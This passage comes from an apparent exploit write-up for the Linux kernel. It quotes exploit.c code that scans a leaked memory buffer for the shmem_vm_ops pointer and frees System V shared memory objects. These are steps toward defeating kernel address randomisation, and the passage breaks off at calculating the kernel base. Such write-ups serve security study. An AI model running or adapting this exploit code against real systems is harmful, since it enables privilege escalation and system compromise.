 ### Step3.5: Search for `shmem_vm_ops` address
- [exploit.c#L641](./exploit.c#L641):

```c
shmem_vm_ops = search_shmem_vm_ops((uint64_t*)leak_buffer, sz / sizeof(uint64_t));
```

- [exploit.c#L602](./exploit.c#L602):

```c
uint64_t search_shmem_vm_ops(uint64_t *leak_data, int n)
{
  for (int i = 0; i < n; i++) 
    if ((leak_data[i] & 0x0FFFFF) == SHMEM_VM_OPS_LAST_20_BITS && (leak_data[i] >> 32) == 0xffffffff)
      return leak_data[i];

  return 0;
}
```

- [exploit.c#L35](./exploit.c#L35):

```c
#define SHMEM_VM_OPS_LAST_20_BITS 0x18600
```

### Step3.6: Cleanup and retry in case of failure
- [exploit.c#L645](./exploit.c#L645):

```c
if (!shm_file_data_free(shmids, 256))
  return 0;
```

- [exploit.c#L435](./exploit.c#L435):

```c
bool shm_file_data_free(int *shmids, int n)
{
  for (int i = 0; i < n; i++) {
    if (shmctl(shmids[i], IPC_RMID, NULL) < 0) {
      perror("shmctl");
      return false;
    }
  }

  free(shmids);
  return true;
}
```

- This step destroy all `struct shm_file_data` objects and System V shared memory segments.

### Step3.7: Calculate kernel base in case of success
